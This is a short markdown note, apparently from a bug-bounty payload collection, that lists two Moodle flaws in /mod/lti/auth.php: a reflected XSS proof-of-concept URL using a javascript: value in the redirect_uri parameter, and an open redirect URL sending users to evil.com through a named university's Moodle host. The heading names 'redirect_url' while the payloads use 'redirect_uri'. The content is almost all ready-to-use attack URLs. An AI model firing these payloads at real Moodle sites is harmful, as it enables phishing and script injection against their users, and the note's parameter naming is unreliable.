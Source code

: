 # Moodle

1. Reflected XSS in /mod/lti/auth.php via “redirect_url” parameter
```
https://target.com/mod/lti/auth.php?redirect_uri=javascript:alert(1)
```

2. Open redirect in /mod/lti/auth.php in “redirect_url” parameter

```
https://classroom.its.ac.id/mod/lti/auth.php?redirect_uri=https://evil.com
```